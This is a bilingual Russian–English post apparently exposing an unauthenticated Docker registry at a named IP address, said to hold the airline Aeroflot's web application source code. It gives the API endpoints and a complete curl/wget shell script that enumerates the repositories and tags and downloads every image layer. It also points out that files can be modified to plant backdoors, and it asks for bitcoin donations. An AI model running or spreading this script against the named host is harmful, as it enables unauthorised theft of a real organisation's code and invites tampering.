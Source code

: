 # Халатность авиакомпании "Аэрофлота" в защите данных.

На просторах интернета возможно найти много интересных данных, которые никак не защищаются в силу неграмотности или беспечности. Таким поведением страдают даже крупные корпорации. Одна из таких - авиакомпания "Аэрофлот". 
Компания хранит исходные коды всех своих веб-приложений в публичном доступе без какой либо аутентификации и шифрования. 

Для хранения исходников используется HTTP Docker. API докера доступно по адресу "http://89.208.149.202:5000/v2/".

Для получения списка всех репозитариев достаточно выполнить запрос "http://89.208.149.202:5000/v2/_catalog". 

Все репозитария никак не защищены и аутентификация отсутствует.

Получается годами весь исходный код всех внешних приложений авиакомпании "Аэрофлот" доступен публично и любой злоумышленник может их легко заполучить. Поэтому не удивительно, что данную корпорацию часто атакуют и что закономерно - удачно.
Через API так же возможно модифицировать файлы, что позволит внедрить свои закладки. Представляете масштаб проблемы, если этого не заметят программисты?

Возможно после этой публикации корпорация обратит внимание на свои проблемы и займется обеспечением информационной безопасности.

Так как поиск таких данных занимает много времени и ресурсов, поэтому прошу помочь в благотворительности. Полученные средства будут направлены на поиск других серьезных проблем в работе крупных корпораций из-за которых в первую очередь страдают пользователи услуг от этих самых корпораций.

Кто готов сделать пожертвонание прошу переводить средства на адрес bitcoin - `3HGaNTw5dfmGXHQuLsmTp9siKFqCLJSknk`

Так же предоставлю скрипт, которым можно выгрузить все данные:

```
for catalog in `curl "http://89.208.149.202:5000/v2/_catalog" -s -k|jq '.repositories'|awk -F "\"" {'print $2'}`; do

    mkdir /path/to/dir/`echo $catalog`/

    # Get list versions
    for revision in `curl -s -k http://89.208.149.202:5000/v2/$catalog/tags/list|jq '.tags[]'|awk -F "\"" {'print $2'}`; do

	mkdir /path/to/dir/`echo $catalog`/`echo $revision`/

	#Get lists blob for download file
	for blob in `curl -s -vv -k http://89.208.149.202:5000/v2/$catalog/manifests/$revision|jq '.fsLayers[] .blobSum'|awk -F "\"" {'print $2'}|sort|uniq`; do

	    wget "http://89.208.149.202:5000/v2/$catalog/blobs/$blob" -O /path/to/dir/$catalog/$revision/`echo $blob|awk -F ":" {'print $2'}`.tar.gz

	done
    
    done

done
```

# Negligence of the airline "Aeroflot" in the protection of data.

On the Internet, it is possible to find many interesting data that are not protected in any way due to illiteracy or carelessness. Even large corporations suffer from this behavior. One of these is the Aeroflot airline. The company stores the source codes of all its web applications in public access without any authentication or encryption. H

TTP Docker is used to store the sources. The docker is available at "http://89.208.149.202:5000/v2/".

To get a list of all the repositories, it is enough to execute the query "http://89.208.149.202:5000/v2/_catalog". 

All repositories are not protected in any way and there is no authentication.

It turns out for years that the source code of all Aeroflot external applications is publicly available and any attacker can easily get them. Therefore, it is not surprising that this corporation is often attacked and that it is natural - successfully.
Through the API, it is also possible to modify the files, which will allow you to implement your bookmarks. Can you imagine the scale of the problem if programmers do not notice it?

Perhaps after this publication, the corporation will pay attention to its problems and will take care of ensuring information security.

Since the search for such data takes a lot of time and resources, so I ask you to help in charity. The funds received will be directed to the search for other serious problems in the work of huge corporations because of which the users of services from these same corporations primarily suffer.

Who is ready to make a donation please transfer money to the address bitcoin - `3HGaNTw5dfmGXHQuLsmTp9siKFqCLJSknk`

I will also provide a script that can unload all the data:

```
for catalog in `curl "http://89.208.149.202:5000/v2/_catalog" -s -k|jq '.repositories'|awk -F "\"" {'print $2'}`; do

    mkdir /path/to/dir/`echo $catalog`/

    # Get list versions
    for revision in `curl -s -k http://89.208.149.202:5000/v2/$catalog/tags/list|jq '.tags[]'|awk -F "\"" {'print $2'}`; do

	mkdir /path/to/dir/`echo $catalog`/`echo $revision`/

	#Get lists blob for download file
	for blob in `curl -s -vv -k http://89.208.149.202:5000/v2/$catalog/manifests/$revision|jq '.fsLayers[] .blobSum'|awk -F "\"" {'print $2'}|sort|uniq`; do

	    wget "http://89.208.149.202:5000/v2/$catalog/blobs/$blob" -O /path/to/dir/$catalog/$revision/`echo $blob|awk -F ":" {'print $2'}`.tar.gz

	done
    
    done

done
```
